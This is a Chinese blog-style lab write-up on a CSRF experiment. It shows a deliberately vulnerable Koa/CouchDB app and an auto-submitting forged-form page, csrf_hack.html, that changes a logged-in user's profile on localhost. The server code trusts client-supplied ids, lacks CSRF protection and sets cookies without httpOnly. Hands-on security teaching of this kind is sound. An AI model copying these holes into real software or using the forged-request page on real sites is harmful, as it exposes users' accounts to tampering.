



# CSRF攻击实验

CSRF攻击涉及用户受害者,受信任的网站和恶意网站。当受害者与受信任的站点拥有一个活跃的会话同时，如果访问恶意网站，恶意网站会注入一个HTTP请求到为受信任的站点，从而破话用户的信息。

CSRF 攻击总是涉及到三个角色:信赖的网站（Collabtive）、受害者的 session 或 cookie 以及一个恶意网站。受害者会同时访问恶意网站与受信任的站点会话的时候。攻击包括一系列步骤，如下:

1. 受害者用户使用他/她的用户名和密码登录到可信站点,从而创建一个新的会话。
2. 受信任站点存储受害者会话的 cookie 或 session 在受害者用户的 web 浏览器端。
3. 受害者用户在不退出信任网站时就去访问恶意网站。
4. 恶意网站的网页发送一个请求到受害者的受信任的站点用户的浏览器。
5. web 浏览器将自动连接会话 cookie，因为它是恶意的要求针对可信站点。
6. 受信任的站点如果受到 CSRF 攻击，攻击者的一些恶意的请求会被攻击者发送给信任站点。

恶意网站可以建立HTTP GET或POST请求到受信任的站点。一些HTML标签,比如img iframe,框架,形式没有限制的URL,可以在他们的使用属性中。

# 环境搭建

## 服务器
我使用的是koa框架作为后端框架搭建的服务器，顺便也算是学习一下koa框架，之前没有学过，由于是初学，搭建过程有点漫长

话不多说上代码：
```js 
  // app.js
  const Koa = require('koa');
  const app = new Koa();
  const server = require('koa-static');
  const router = require('koa-router')();
  const PouchDB = require('pouchdb');
  const db = new PouchDB('http://localhost:5984/csrf');

  app.use(async (ctx, next) => {
      console.log(`Process ${ctx.request.method} ${ctx.request.url}...`);
      await next();
  });

  // add url-route:
  router.post('/login', async (ctx, next) => {
    let postData = await parsePostData( ctx );
    try {
      let response = await db.get(`id_${postData.name}`);
      let exp = new Date();
      ctx.cookies.set(
        'id', 
        `id_${postData.name}`,
        {
          domain: 'localhost',  // 写cookie所在的域名
          path: '/userInfo.html',       // 写cookie所在的路径
          maxAge: 24*60*60*1000, // cookie有效时长
          expires: exp.setTime(exp.getTime() + 24*60*60*1000),  // cookie失效时间
          httpOnly: false,  // 是否只用于http请求中获取
          overwrite: false  // 是否允许重写
        }
      )
      if(response.password === postData.password) ctx.redirect('userInfo.html')
    } catch (err) {
      ctx.body = "<p>登录失败，点击<a href='index.html'>这里</a>返回</p>";
    }
  });

  router.post('/regist', async (ctx, next) => {
    let postData = await parsePostData( ctx );
    
    postData._id = `id_${postData.name}`;
    try {
      let response = await db.put(postData);
      ctx.body = "<p>注册成功，点击<a href='index.html'>这里</a>返回至登录界面</p>";
    } catch (err) {
      ctx.body = "<p>用户名已存在，点击<a href='index.html'>这里</a>返回</p>";
    }
  });


  router.post('/getUserInfo', async (ctx, next) => {
    let postData = await parsePostDataFromAjax( ctx );
    let _id = {};
    _id[postData.split(':')[0]] = postData.split(':')[1];
    try {
      let doc = await db.get(_id.id);
      ctx.body = doc;
    } catch (err) {
      ctx.body = '发生错误';
    }
  });

  router.post('/change', async (ctx, next) => {
    let postData = await parsePostData( ctx );
    console.log(postData);
    try {
      let doc = await db.get(postData.id);
      let response = await db.put({
        _id: doc._id,
        _rev: doc._rev,
        name: postData.name,
        password: doc.password,
        sex: postData.sex,
        desc: postData.desc
      });
      ctx.body = "<p>修改成功，点击<a href='index.html'>这里</a>返回至登录界面</p>";
    } catch (err) {
      console.log(err);
    }
  });

  app.use(router.routes());
  app.use(server(__dirname + '/'));
  app.listen(3001);
  /**
  * 
  * 对于POST请求的处理，koa2没有封装获取参数的方法，
  * 需要通过解析上下文context中的原生node.js请求
  * 对象req，将POST表单数据解析成query string（例
  * 如：a=1&b=2&c=3），再将query string 解析成
  * JSON格式（例如：{"a":"1", "b":"2", "c":"3"}）
  */
  // 解析上下文里node原生请求的POST参数，这个是处理表单form传入参数
  function parsePostData( ctx ) {
    return new Promise((resolve, reject) => {
      try {
        let postdata = "";
        ctx.req.addListener('data', (data) => {
          postdata += data
        })
        ctx.req.addListener("end",function(){
          let parseData = parseQueryStr( postdata )
          
          resolve( parseData )
        })
      } catch ( err ) {
        reject(err)
      }
    })
  }
  // 解析上下文里node原生请求的POST参数，这个是处理Ajax传入参数
  function parsePostDataFromAjax( ctx ) {
    return new Promise((resolve, reject) => {
      try {
        let postdata = "";
        ctx.req.addListener('data', (data) => {
          postdata += data
        })
        ctx.req.addListener("end",function(){
        resolve( postdata )
        })
      } catch ( err ) {
        reject(err)
      }
    })
  }

  // 将POST请求参数字符串解析成JSON
  function parseQueryStr( queryStr ) {
    let queryData = {}
    let queryStrList = queryStr.split('&');
    for (  let [ index, queryStr ] of queryStrList.entries()  ) {
      let itemList = queryStr.split('=')
      queryData[ itemList[0] ] = decodeURIComponent(itemList[1])
    }
    return queryData
  }
```

就这一个文件，里面包含了很多东西
+ `koa-static`是koa的一个中间件，用于获取静态文件的
+ `koa-router`是koa的一个中间件，用于路由系统
+ `pouchDB`是我使用的`couchDB`的配套使用的框架

## 数据库
我使用的是couchDB数据库，具体怎么使用看[这里](http://couchdb.apache.org/)，用法很简单，他的界面是一个网页，我这里贴一张图


## 前端页面

前端页面总共有三个，分别是`index.html`,`regist.html`,`userInfo.html`，其作用分别是登录，注册，展示/修改用户信息，我这里没有使用css样式。。。有点丑

### index.html
```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>登录</title>
  </head>
  <body>
    <h2>登录</h2>
    <form id="login" action="/login" method="post">
      姓名：<input tyep="text" name="name" />
      密码：<input type="password" name="password" />
    </form>
    <button id="button">登录</button>
    <a href="./regist.html">注册</a>
  </body>
  <script>
    var button = document.getElementById('button');
    var form = document.getElementById('login');
    button.onclick = function() {
      form.submit();
    }
  </script>
  </html>
```

### regist.html
```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>注册</title>
  </head>
  <body>
    <h2>注册</h2>
    <form id="regist" action="/regist" method="post">
      姓名：<input tyep="text" name="name" /><br>
      密码：<input type="password" name="password" /><br>
      性别：<input type="radio" name="sex" value="male" />男<input type="radio" name="sex" value="female" />女<br>
      描述：<textarea name="desc" id="" cols="30" rows="10"></textarea>
    </form>
    <button id="button">注册</button>
    <a href="./index.html">登录</a>
  </body>
  <script>
    var button = document.getElementById('button');
    var form = document.getElementById('regist');
    button.onclick = function() {
      form.submit();
    }
  </script>
  </html>
```

### userInfo.html
这个页面我使用了ajax，所以引入了jQuery

```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <script src="./jquery-3.2.1.min.js"></script>
    <title>用户信息</title>
  </head>
  <body>
    <div>
      <h1>用户信息</h1>
      <div>姓名：<span id="name"></span></div>
      <div>性别：<span id="sex"></span></div>
      <div>描述：<span id="desc"></span></div>
      <h1>修改信息</h1>
      <form id="change" action="/change" method="post">
        <input id="id" name="id" hidden value=""/>
        姓名：<input tyep="text" name="name" /><br>
        性别：<input type="radio" name="sex" value="male" />男<input type="radio" name="sex" value="female" />女<br>
        描述：<textarea name="desc" id="" cols="30" rows="10"></textarea>
      </form>
      <button id="button">修改</button>
    </div>
  </body>
  <script>
    window.onload = function() {
      var id = document.cookie.split(";")[0].split("=").join(':');
      $.ajax({
        url: 'http://localhost:3001/getUserInfo',
        data: id,
        method: 'post',
      }).then(function(res) {
        var doc = res;
        $("#name").text(doc.name);
        $("#sex").text(doc.sex);
        $("#desc").text(doc.desc);
        $("#id").val(doc._id);
      })
      var form = document.getElementById("change");
      var button = document.getElementById("button");
      button.onclick = function() {
        form.submit();
      }
    }
  </script>
  </html>
```

最后放上`package.json`
```json
  {
    "name": "csrf",
    "version": "1.0.0",
    "description": "",
    "main": "app.js",
    "scripts": {
      "start": "node app.js"
    },
    "author": "",
    "license": "ISC",
    "devDependencies": {
      "koa": "^2.2.0",
      "koa-router": "^7.2.1",
      "koa-static": "^3.0.0",
      "pouchdb": "^6.2.0"
    }
  }
```

命令行执行
```
  npm install 
  npm start
```

# CSRF攻击
终于到了关键，其实也就那么一刹那，很快我们的步骤如下：
1. 首先我注册了一个账户，然后我登录这个账户查看信息如图，以及他的cookie参数，在图中我们发现cookie里面有一个重要信息是ID，这个就是当前用户的ID
2. 接下来我通过浏览器开发者工具查看表单数据以及请求的url以方便我构造假请求
3. 编写csrf_hack.html
    ```html
      <!DOCTYPE html>
        <html lang="en">
        <head>
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <meta http-equiv="X-UA-Compatible" content="ie=edge">
          <title>攻击页面</title>
        </head>
        <body>
          <h1>这是一个攻击页面</h1>
        </body>
        <script>
          function hack() {
            var fields;
            fields += "<input type='hidden' name='id' value='id_1111'/>";
            fields += "<input type='hidden' name='name' value='testName'>";
            fields += "<input type='hidden' name='sex' value='testSex'>";
            fields += "<input type='hidden' name='desc' value='testDesc'>";
            
            var url = "http://localhost:3001/change";
            var p = document.createElement("form");
            p.action = url;
            p.innerHTML = fields;
            p.target = "_self";
            p.method = "post";

            document.body.appendChild(p);
            p.submit();
          }
          window.onload = function() {
            hack();
          }
        </script>
        </html>
    ```
4. 然后在启动一个服务，将刚才编写的csrf_hack.html页面放进去，然后访问这个页面（这里我偷懒，直接把刚才的端口修改了一个，然后另开一个控制台启动服务，然后访问），接下来再次登录刚才的账号，发现刚才写在csrf_hack.html页面的信息更替上去了

注意事项
1. 如果要使用async,await这两个node版本需要在7以上
2. 相信大家一定也想到了，这个实验最重要的是需要获得被攻击方的ID，但是我们没有被攻击方的密码，怎么能够获取他ID呢，这个我也在继续思考
